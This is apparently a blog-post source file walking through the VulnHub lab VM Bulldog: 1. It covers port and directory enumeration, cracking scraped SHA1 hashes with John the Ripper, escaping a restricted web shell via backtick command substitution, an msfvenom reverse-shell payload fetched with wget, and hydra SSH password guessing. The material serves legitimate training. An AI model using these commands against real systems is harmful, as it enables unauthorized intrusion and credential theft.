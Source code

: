 ```yaml
---
layout: post
title: "Who Let the Dogs Out?"
category: Walkthrough
tags: [VulnHub, Bulldog]
comments: true
---
```


This post documents the complete walkthrough of Bulldog: 1, a boot2root [VM][1] hosted at [VulnHub][2]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background
Bulldog Industries recently had its website defaced and owned by the malicious German Shepherd Hack Team. Could this mean there are more vulnerabilities to exploit? Why don't you find out? :) 

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in **bulldog**:

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.36.3
...
PORT     STATE SERVICE REASON         VERSION
23/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|_  256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
80/tcp   open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
8080/tcp open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
```

Let's explore the web service first. This is how the site looked like as rendered by a browser.

![screenshot-1](/assets/images/posts/bulldog-walkthrough/screenshot-1.png)

The HTML source of the landing page as well as its internal link did not provide a clue on how to proceed.

### Directory/File Enumeration

Let's use `gobuster` with `common.txt` from [SecLists][3]{:target='blank'} to enumerate the site and see what we can discover.

```
# gobuster -w /usr/share/seclists/Discovery/Web_Content/common.txt -e -u http://192.168.36.3

Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.36.3/
[+] Threads      : 10
[+] Wordlist     : /usr/share/seclists/Discovery/Web_Content/common.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://192.168.36.3/admin (Status: 301)
http://192.168.36.3/dev (Status: 301)
http://192.168.36.3/robots.txt (Status: 200)
=====================================================
```

The `robots.txt` probably doesn't conform to specifications or it'll will appear in the `nmap` scan. Now, I've two more new pages: **Django Administration** and **Under Development**.

### Under Development Page

This page contained interesting information. There's a link to `/dev/shell`, purportedly a web shell. Under the hood in the HTML source, there were SHA1 password hashes of members from the development team.

![screenshot-2](/assets/images/posts/bulldog-walkthrough/screenshot-2.png)

Let's clean up the hashes and submit to John the Ripper for offline cracking.

```
# curl -s 192.168.36.3/dev/ | sed '49,55!d' | awk -F': ' '{ print $2 }' | sed -r -e 's/(<br>)+<!--/:/' -e 's/-->/:::::/' > hashes.txt && john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
...
nick@bulldogindustries.com:bulldog:::::
sarah@bulldogindustries.com:bulldoglover:::::
```

Thank goodness authentication is required to use the web shell.

![screenshot-3](/assets/images/posts/bulldog-walkthrough/screenshot-3.png)

### Django Site Administration

Let's use one of the credentials `(nick:bulldog)` and see if we can authenticate with the server in order to use the web shell.

![screenshot-4](/assets/images/posts/bulldog-walkthrough/screenshot-4.png)

![screenshot-5](/assets/images/posts/bulldog-walkthrough/screenshot-5.png)

We see that a session with the site has been established. Now, are we able to use the web shell by going to `/dev/shell`?

![screenshot-6](/assets/images/posts/bulldog-walkthrough/screenshot-6.png)

Sweet. However, it appeared that only certain commands were allowed.

### Command Substitution

One of my favorite features in `bash` is [command substitution][4]{:target='_blank'} using backtick (`).

> "Bash performs the expansion by executing command in a subshell environment and replacing the command substitution with the standard output of the command, with any trailing newlines deleted."

![screenshot-7](/assets/images/posts/bulldog-walkthrough/screenshot-7.png)

### Low Privilege Shell

Let's transfer (using `wget`) a single-stage reverse shell payload and then run a reverse shell back to me. I can do that with `msfvenom` and Metasploit multi-handler.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.36.4 LPORT=443 -f elf -o bulldog
```

![screenshot-8](/assets/images/posts/bulldog-walkthrough/screenshot-8.png)

![screenshot-9](/assets/images/posts/bulldog-walkthrough/screenshot-9.png)

![screenshot-10](/assets/images/posts/bulldog-walkthrough/screenshot-10.png)

Boom. A low-privilege shell appeared but let's spawn a pseudo-TTY for better output control.

![screenshot-11](/assets/images/posts/bulldog-walkthrough/screenshot-11.png)

### Privilege Escalation

During enumeration, I found two users: `django` and `bulldogadmin` able to `sudo` as `root`. Unfortunately, I don't have their passwords.

![screenshot-12](/assets/images/posts/bulldog-walkthrough/screenshot-12.png)

![screenshot-13](/assets/images/posts/bulldog-walkthrough/screenshot-13.png)

![screenshot-14](/assets/images/posts/bulldog-walkthrough/screenshot-14.png)

Noticed `.hiddenadmindirectory` in the home directory of `bulldogadmin`?

![screenshot-15](/assets/images/posts/bulldog-walkthrough/screenshot-15.png)

![screenshot-16](/assets/images/posts/bulldog-walkthrough/screenshot-16.png)

![screenshot-17](/assets/images/posts/bulldog-walkthrough/screenshot-17.png)

Seemed like reverse engineering the ELF binary is my ticket to `root`.

### What the ELF?

The first thing to do in reverse engineering is to look for interesting strings and that's exactly what I did.

![screenshot-18](/assets/images/posts/bulldog-walkthrough/screenshot-18.png)

If you look past `"H"`, you'll see "`SUPERultimatePASSWORDyouCANTget`". I'll hit the jackpot if this is the password belonging to any of the users since they can all `sudo` to `root`. Let's find out with `hydra`.

```
# cat users.txt
bulldogadmin
django
root

# hydra -L users.txt -p SUPERultimatePASSWORDyouCANTget -s 23 ssh://192.168.36.3
[23][ssh] host: 192.168.36.3   login: django   password: SUPERultimatePASSWORDyouCANTget
1 of 1 target successfully completed, 1 valid password found
```

![screenshot-19](/assets/images/posts/bulldog-walkthrough/screenshot-19.png)

It's done.

![screenshot-20](/assets/images/posts/bulldog-walkthrough/screenshot-20.png)

:dancer:

### Afterthought

If I have to guess, I'll say the other way to get root is perhaps through the Dirty CoW exploit as hinted in the notice page.

![screenshot-21](/assets/images/posts/bulldog-walkthrough/screenshot-21.png)

Well, to an attacker, a shell is a shell is a shell. Period. :smiling_imp:

[1]: https://www.vulnhub.com/entry/bulldog-1,211/
[2]: https://www.vulnhub.com
[3]: https://github.com/danielmiessler/SecLists
[4]: https://www.gnu.org/s/bash/manual/html_node/Command-Substitution.html
